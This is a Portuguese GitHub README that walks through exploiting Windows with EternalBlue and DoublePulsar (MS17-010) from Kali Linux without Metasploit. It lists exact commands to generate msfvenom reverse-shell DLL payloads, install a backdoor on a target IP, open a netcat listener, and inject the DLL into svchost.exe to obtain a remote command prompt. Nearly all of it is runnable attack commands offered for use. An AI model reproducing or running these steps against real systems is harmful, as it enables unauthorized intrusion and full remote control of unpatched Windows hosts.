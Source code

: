 # Eternalblue Doublepulsar (MS17-010)

Explorando Windows com EternalBlue (MS17-010) sem Metasploit utilizando Kali Linux 2022.3.

Testado em:

- Windows 7 Ultimate 7601 Service Pack 1 (32 bits)
- Windows 7 Professional 7601 Service Pack 1 (64 bits)
- Windows XP Professional 2600 Service Pack 2 (32 bits)
- Windows Server 2008 Enterprise 6001 Service Pack 1 (32 bits)

#

### Preparando a máquina atacante:
Adicione a arquitetura i386 (para computadores 32 bits) no repositório.
```
dpkg --add-architecture i386
```
```
apt-get update
```
<br>

Realize a instalação dos pacotes libwine, wine, wine32 e winetricks.
```
apt-get install libwine wine wine32 winetricks
```
<br>

Após a instalação certifique-se que o **Wine** esteja instalado, em seguida execute o comando **exit** para sair do **Wine**.
```
wine cmd
```
<br>

Realize a correção do impacket utilizando pimpmykali (para utilizar os exploits python2)
<br>

https://github.com/Dewalt-arch/pimpmykali

#

Realize o download do exploit, descompacte o arquivo ms17-010.tar.gz.
<br>

https://github.com/caique-garbim/MS17-010/raw/main/ms17-010.tar.gz
```
tar xf ms17-010.tar.gz
```
```
cd ms17-010/
```
### Exploração
Gerando payload reverse shell non-staged com **msfvenom** para explorar Windows 32 bits
```
msfvenom -p windows/shell_reverse_tcp LHOST=172.20.1.53 LPORT=8080 -f dll > shell.dll
```

ou

Gerando payload reverse shell non-staged com **msfvenom** para explorar Windows 64 bits
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.20.1.53 LPORT=8080 -f dll > shell.dll
```
- IP da máquina atacante: 172.20.1.53
- Porta que irá receber a conexão reversa: 8080
<br>

Instalando backdoor no servidor alvo com EternalBlue (Windows 7):
```
wine Eternalblue-2.2.0.exe --TargetIp 172.16.1.145 --Target WIN72K8R2 --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 --GroomAllocations 12 --OutConfig 1.txt
```

ou

Instalando backdoor no servidor alvo com EternalBlue (Windows XP):
```
wine Eternalblue-2.2.0.exe --TargetIp 172.16.1.145 --Target XP --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 --GroomAllocations 12 --OutConfig 1.txt
```
- IP do servidor alvo: 172.16.1.145
<br>

Preparando a máquina atacante para receber a conexão reversa (em outro terminal):
```
rlwrap nc -vnlp 8080
```
<br>

Enviando shellcode para injetar DLL com DoublePulsar (para explorar Windows 32 bits):
```
wine Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 172.16.1.145 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x86 --Function Rundll
```

ou

Enviando shellcode para injetar DLL com DoublePulsar (para explorar Windows 64 bits):
```
wine Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 172.16.1.145 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x64 --Function Rundll
```
- IP do servidor alvo: 172.16.1.145
<br>
 
Observe que a conexão reversa foi estabelecida e foi obtido acesso ao prompt de comando do Windows:
![image](https://user-images.githubusercontent.com/76706456/172243037-3162bf1f-c6ad-45d6-a841-f9cd5cbc5c1b.png)
